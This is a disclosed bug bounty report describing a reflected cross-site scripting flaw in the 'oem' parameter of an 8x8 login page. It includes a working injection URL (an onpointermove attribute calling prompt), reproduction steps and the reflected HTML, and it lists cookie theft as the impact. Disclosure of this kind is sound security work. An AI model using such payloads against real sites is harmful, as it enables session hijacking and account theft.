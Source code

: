 # xss(r) vcc-na11.8x8.com

## Report Details
- **Report ID**: 1392733
- **URL**: https://hackerone.com/reports/1392733
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-11-06T05:47:37.180Z
- **Disclosed**: 2023-07-10T16:48:19.363Z

## Reporter
- **Username**: ssharmaz
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: 8x8-bounty

## Vulnerability Information
xss(r)  on vcc-na11.8x8.com oem parameter
"oem" parameter in endpoint vcc-na11.8x8.com is not sanitized and is pen to Reflected Cross Site Scripting Attacks
https://vcc-na11.8x8.com/CM/login.php?oem=%22onpointermove%3Dprompt%281%29+class%3Dss11+

**Description:** [add more details about this vulnerability]
xss(r)  on vcc-na11.8x8.com oem parameter
"oem" parameter in endpoint vcc-na11.8x8.com is not sanitized and is pen to Reflected Cross Site Scripting Attacks
Specifically stealing non secure cookies

## Steps To Reproduce:

(Add details for how we can reproduce the issue)

  1. Click on link
https://vcc-na11.8x8.com/CM/login.php?oem=%22onpointermove%3Dprompt%281%29+class%3Dss11+
  2. Move mouse over body
  3. xss is trigerred

## Supporting Material/References:

The payload is reflected multiple places in response body
<a href=" http://www.google.com/chrome">	
	<img src="/./OEM/"onpointermove=prompt(1)class=ss11/common/images/browsers/chrome.png"class="browser-logo" alt="{{#txt_unsupported_browser_chrome#}}" />
	<h2>{{#txt_unsupported_browser_chrome#}}</h2>

From <https://vcc-na11.8x8.com/CM/login.php?oem=%22onpointermove%3Dprompt%281%29+class%3Dss11+>

## Impact

Cookie stealing

## Attachments
No attachments
